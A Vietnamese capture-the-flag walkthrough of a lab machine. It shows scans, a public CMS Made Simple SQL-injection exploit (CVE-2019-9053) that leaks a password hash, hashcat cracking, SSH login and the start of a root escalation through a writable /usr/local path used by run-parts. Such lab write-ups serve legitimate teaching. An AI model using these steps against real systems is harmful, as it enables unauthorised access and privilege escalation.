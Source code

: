 - Ip: 10.10.10.138
- Scan xem có gì: nmap -T4 -sV 10.10.10.138
![Image 1](image/image1.png)

- nmap -T4 -sC  10.10.10.138

![Image 2](image/image2.png)

- Có cổng 20 và cổng 80 mở 
![Image 3](image/image3.png)

- Truy cập vào website, đọc thì thấy web được bảo vệ bởi công nghệ chống dos, không dùng dirsearch được. 
- Scan cổng 80: thử truy cập http://10.10.10.138/writeup.
![Image 4](image/image4.png)
- Có nội dung trong đấy 
- Inspect ra xem 
![Image 5](image/image5.png)
```
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```
- Phiên bản CMS made simple 2019 search xem có lỗ hổng nào không: CVE:2019-9053
<a href="https://www.exploit-db.com/exploits/46635">Exploit  CVE-2019-9053</a>
- Sau khi tải xuống 46635 
- Chạy lệnh: python2 46635 -u http://10.10.10.138/writeup/  Để khai thác 

![Image 6](image/image7.png)
```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr5u
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```
- Có vẻ không crack được dùng hashcat vậy.
```
echo "62def4866937f08cc13bab43bb14e6f7:5a599ef579066807" > hash 
hashcat -a 0 -m 20 hash /usr/share/wordlists/rockyou.txt
(20 | md5($salt.$pass)          Raw Hash salted and/or iterated)
```
![Image 7](image/image8.png)

- pass: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
- sau khi crack được: kết nối ssh với username: jkr pass:  raykayjay9
- Ra được flag user 
![Image 8](image/image9.png)
- flag user: 68a7de4f87fb76791e79057ccf57176b
- sau khi lấy được flag user, tiến hành nâng quyền root
![Image 9](image/image10.png)
- jkr thuộc nhóm người dùng staff, nhóm này có quyền thêm sửa usr/local/ mà không cần quyền root.
<a href="https://wiki.debian.org/SystemGroups">System Groups</a>
- Tiến hành bắt tiến trình xem có gì thuộc usr/local đang chạy không. 
<a href="https://github.com/DominicBreuker/pspy">pspy</a>
- dùng lệnh scp pspy32 jkr@10.10.10.138:/tmp để tải file pspy lên 
![Image 10](image/image11.png)
- Vào tmp cấp quyền thực thi rồi chạy ./pspy32.
![Image 11](image/image12.png)
- tiến hành đăng nhập ssh ở một terminal khác.
```
2024/08/05 05:12:01 CMD: UID=0    PID=2811   | sshd: [accepted]  
2024/08/05 05:12:16 CMD: UID=0    PID=2812   | sshd: jkr [priv]  
2024/08/05 05:12:16 CMD: UID=0    PID=2813   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2024/08/05 05:12:16 CMD: UID=0    PID=2814   | run-parts --lsbsysinit /etc/update-motd.d 
2024/08/05 05:12:16 CMD: UID=0    PID=2815   | /bin/sh /etc/update-motd.d/10-uname 
2024/08/05 05:12:16 CMD: UID=0    PID=2816   | sshd: jkr [priv]  
2024/08/05 05:12:17 CMD: UID=1000 PID=2817   | sshd: jkr@pts/1   

```
- Để ý thấy có run-part đang chạy. Mà thuộc /usr/local mà saff có quyền chỉnh sửa. Sửả nó :))) 

